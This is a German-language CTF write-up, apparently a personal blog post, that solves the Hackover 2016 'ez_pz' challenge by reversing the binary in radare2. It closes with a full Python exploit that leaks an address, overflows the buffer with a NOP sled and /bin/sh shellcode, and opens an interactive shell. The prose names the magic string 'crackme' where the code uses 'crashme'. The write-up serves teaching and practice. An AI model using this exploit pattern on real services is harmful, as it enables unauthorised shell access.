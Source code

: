 ```yaml
---
title:  "Hackover 2016"
date:   2017-05-01T13:13:13+01:00
draft: false
description: "Dieser Artikel fasst eine CTF challenge vom Hackover 2016 in Hannover zusammen. Benutzte Tools: Python, Netcat, radare2"
toc: false
tags:
  - ctf
---
```


Eigentlich wollte ich diesen Artikel schon Ende Oktober 2016 runterschreiben,
kam aber leider noch nicht dazu. Naja, besser spät als nie. Letzten Oktober war
ich auf dem [Hackover](https://hackover.de/) in Hannover. Dieses Mal wurde da
ein phänomenales CTF vom CTF-Team des [Hamburger
CCC](https://www.hamburg.ccc.de/) veranstaltet. Eine der Challenges möchte ich
euch nicht vorenthalten. Da der Server, der das CTF gehandled hat bereits
abgeschaltet worden ist, muss man etwas improvisieren. Am besten dazu eignet
sich eine VM mit GNU/Linux (vorzugsweise Arch Linux natürlich). Dann kann man
die Binary nämlich getrost lokal ausführen mit der folgenden Zeile:

`socat TCP-LISTEN:6666,bind=localhost,reuseaddr,fork EXEC:./ez_pz`

Ob alles geklappt hat kann man mit `gnu-netcat` überprüfen:

![gnu-netcat in action](/img/ez_pz_1.png)

Da wir einen Login-Dialog bekommen hat alles geklappt. Wir sehen etwas
ASCII-Art, ein paar Sprüche und eine Frage:"What's your Name?".
Was aber noch viel wichtiger ist, ist die Speicheraddresse die wir da
sehen (gemeint ist der Hex-String). Diese Adresse wird noch sehr
hilfreich werden. Wenn wir das ganze etwas durchprobieren merken wir,
dass sich diese Adresse immer wieder ändert. Vermutlich ist das unsere
Rücksprungsadresse. Also die Addresse zu der wir später springen müssen
um die Challenge zu beenden. Ok werfen wir einen Blick auf die binary
mit einem meiner Lieblingstools `radare2`:

![radare2 in action](/img/ez_pz_2.png)

Was wir hier sehen ist die `main`-function. Interessant für uns ist hier
allerdings nur der Aufruf: `call sym.chall`. `sym.header` beherbergt
anscheinend nur die Ausgabe des Headers. Diesen Part können wir also
getrost ignorieren. Schauen wir uns also mal `sym.chall` an:

![radare2 in action2](/img/ez_pz_3.png)

Was sofort ins Auge fällt ist folgende Zeile die nicht ins Gesamtbild
passt:

`0x080486b0      6853880408     push str.crashme ; str.crashme ; "crashme" @ 0x8048853`

Anscheinend ist dies unser Magic-String den wir treffen müssen um in die
Funktion `sym.vuln` zu springen. Ansonsten landen wir nur bei dem `nop`
in `0x080486df`. Gut schauen wir uns mal diese `sym.vuln` an. Der Name
ist ja bereits so verräterisch:

![radare2 in action3](/img/ez_pz_4.png)

Anscheinend handled die Application den Null-Terminator falsch. Heißt
wir können eine Eingabe machen, diese mit dem Null-Byte terminieren und
dann weiterschreiben. Alles was wir weiterschreiben wird anscheinend
direkt in den Speicher geschrieben. Anhand dieses Wissens können wir nun
einen exploit komponieren, der alle Voraussetzungen erfüllt und uns dann
eine Shell poppt. Alles was wir machen müssen ist unseren Magic-String
`crackme` zu senden, dann einen Null-Terminator, dann eine `NOP`-Sled in
die wir hereinspringen können, dann die Addresse aus dem Header mit der
wir dann wiederum zu dem Shellcode springen können der gleich hinter
einer weiteren `NOP`-sled liegt.

Das Ergebnis sieht dann mit `Python` zum Beispiel so aus:

```python
#!/usr/bin/env python2
#-*- coding: utf-8 -*-

import sys
import struct
import time
import re
import binascii
import telnetlib


t = telnetlib.Telnet("127.0.0.1", 6666)
data=""

regex = re.compile("0x[0-9a-f]{8}")

data = t.read_very_eager()
print(data)
match = regex.findall(str(data))
tmp = match[0].lstrip("0x").rstrip("\n\0")
rip = binascii.unhexlify(tmp)
print("Matched Address: ", match[0])
rip = struct.unpack(">I", rip)[0]
print("Our RIP: ", hex(rip))


shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload="crashme"            # magic-string zum crashen der application
payload+="\x00"              # Null-Terminator
payload+="\x90" * 18         # 1. Nop-sled
payload+=struct.pack("<I", rip)
payload+="\x90" * 200        # 2. Nop-sled
payload+=shellcode


t.write(payload + "\n")
while True:
  data = t.read_very_eager()
  print(data)
  input = raw_input("CMD> ")
  t.write(input + "\n")

t.close()
```

Zum Schluss muss man nur noch den richtigen Server und port eintragen
und schon poppt eine Shell auf. Voila!
